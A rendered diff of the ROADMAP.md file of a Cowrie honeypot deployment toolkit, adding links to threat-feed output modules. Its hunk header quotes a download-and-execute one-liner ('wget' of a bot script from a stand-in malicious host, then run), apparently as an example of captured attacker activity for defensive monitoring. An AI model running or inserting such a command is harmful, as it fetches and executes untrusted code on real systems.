

Before and after one commit to reuteras/cowrie-deploy-toolkit, a Markdown page: ROADMAP.md, the part around the change. Drawn GitHub-style; blank space fills up the shorter version.

Commit message:
Add links to greynoise and dshield conf

```diff
--- a/ROADMAP.md
+++ b/ROADMAP.md
@@ -174,6 +174,8 @@ wget http://malicious.com/bot.sh && chmod +x bot.sh && ./bot.sh
 - [ ] Export to STIX/TAXII format
 - [ ] Integration with MISP
 - [ ] Contribute to community threat feeds
+  - https://github.com/cowrie/cowrie/blob/main/src/cowrie/output/greynoise.py
+  - https://github.com/cowrie/cowrie/blob/main/src/cowrie/output/dshield.py
 
 ## Future: Security Hardening
 
```
